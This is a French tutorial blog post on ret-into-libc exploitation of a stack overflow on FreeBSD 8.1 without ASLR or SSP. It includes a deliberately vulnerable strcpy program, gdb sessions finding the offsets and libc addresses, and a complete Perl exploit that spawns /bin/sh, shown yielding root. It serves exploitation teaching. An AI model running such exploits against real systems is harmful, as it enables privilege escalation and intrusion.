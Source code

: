 ```yaml
---
title: Ret into Libc
date: 2012-01-28
tags: ret into libc,overflow,exploitation
author: Tosh
layout: post
---
```


Dans cet article, je vais décrire brièvement comment exploiter un programme en utilisant la méthode de ret into libc. Ceci a été testé uniquement sur FreeBSD 8.1, sans ASLR, et sans SSP d'activé.

Prenons le programme vulnérable suivant :

```c
	#include <string.h>
	#include <stdio.h>

	void foo(char *buff)
	{
    	char buffer[100];
    	strcpy(buffer, buff);
	}

	int main(int argc, char **argv)
	{
    	if(argc != 2)
    	{
        	printf("Usage : %s \n", argv[0]);
        	return 0;
    	}
    	foo(argv[1]);
    	return 0;
	}
```

Nous avons donc un stack overflow dans la fonction foo. Nous savons que nous écrasons EBP après 100 caractères copiés, et EIP après 104 caractères.

Pour être sûr, testons :

```
	(gdb) r `perl -e 'print "A"x100 . "BBBB" . "CCCC";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x43434343 in ?? ()
	(gdb) i r ebp eip
	ebp            0x42424242     0x42424242
	eip            0x43434343     0x43434343
```

Nous avons donc bien écrasé EBP avec les 'B' et EIP avec les 'C'. Le principe du ret into libc, est qu'au lieu de jumper sur un shellcode en STACK ou présent dans une variable d'environnement, nous jumpons sur une fonction de la bibliothèque C.

Le plus simple, étant de sauter sur la fonction system, nous pourrons alors exécuter la commande de notre choix. Pour ce faire, il faudra écraser EIP, avec l'addresse de la fonction system située dans le programme vulnérable, en lui transmettant l'addresse où sera situé notre chaine à exécuter.

En connaissant un peu comment fonctionne les appels de fonctions en C, nous savons que system() ira chercher l'addresse de la chaine 4 octets plus haut sur la pile au moment de l'appel, le sommet de la pile étant EIP empilé par l'instruction CALL.

Une manière propre de faire, étant de placer l'addresse de exit entre l'addresse de system() (Qui écrase EIP), et l'addresse de notre commande. Ainsi, le programme fermera proprement au retour de la fonction system. (Car system jumpera sur l'adresse située sur le sommet de la pile, pensant qu'elle a été appellée grâce à l'instruction CALL).

Notre stack ressemblera donc à ceci :

```
	[     BUFFER     ]
	[     BUFFER     ]
	[      ...       ]
	[     BUFFER     ]
	[ Adresse system ]
	[  Adresse exit  ]
	[Adresse commande]
	[   Commande     ]
	[   Commande     ]
	[   Commande     ]
```

Pourquoi mettre la chaîne de l'argument de system APRÈS les adresses, et pas dans le buffer ? Car cette chaîne a besoin du caractère final '\0', hors si on le met au début, strcpy arrêtera la copie, et nous ne pourrons pas exploiter notre programme.

Le risque, étant d'écraser des données utiles à l'exploitation. Récupérons les adresses de system et exit :

```
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ gdb vuln
	GNU gdb 6.1.1 [FreeBSD]
	Copyright 2004 Free Software Foundation, Inc.
	GDB is free software, covered by the GNU General Public License, and you are
	welcome to change it and/or distribute copies of it under certain conditions.
	Type "show copying" to see the conditions.
	There is absolutely no warranty for GDB.  Type "show warranty" for details.
	This GDB was configured as "i386-marcel-freebsd"...(no debugging symbols found)...
	(gdb) b main
	Breakpoint 1 at 0x8048470
	(gdb) r
	Breakpoint 1, 0x08048470 in main ()
	(gdb) x exit
	0x28101920 :  0x53e58955
	(gdb) x system
	0x280ad870 :  0x0001b855
```

Nous avons donc :

```
	system : 0x280ad870
	exit   : 0x28101920
```

Le plus dur, reste de trouver l'adresse de la chaine.

Exécutons le programme, et tentons de trouver le début de la chaîne :

```
	(gdb) r `perl -e 'print "A"x108 . "BBBB";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()
	(gdb) i r $esp
	esp            0xbfbfe9c0     0xbfbfe9c0
	(gdb) x/s $esp
	0xbfbfe9c0:    "BBBB"
```

Nous avons notre chaîne ! Avec le shéma de la stack précédente, nous savons que notre chaine sera située 8 octets plus loin dans la stack, soit a l'adresse 0xbfbfe9c8

Nous pouvons donc écrire notre exploit :

```perl
	#!/usr/bin/perl
	use strict;

	my $system_addr = "\x70\xd8\x0a\x28";
	my $exit_addr = "\x20\x19\x10\x28";
	my $cmd_addr = "\xc8\xe9\xbf\xbf";
	my $cmd = "/bin/sh";

	my $buff = ("A"x104) . ($system_addr). $exit_addr. $cmd_addr.$cmd;

	print "[*] Inj3ct code...\n";

	exec("./vuln", $buff) || die("Can't exec file\n");
```

Comme vous le savez, sur un système LITTLE_ENDIAN, il faut écrire les adresses "à l'envers", les octets de poids faibles étant à gauche, et ceux de poids fort à droite.

Lançons l'exploit :

```
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ perl test.pl
	[*] Inj3ct code...
	# id
	uid=1001(tosh) gid=1001(tosh) euid=0(root) groups=1001(tosh),0(wheel)
	#
```

Et voilà.
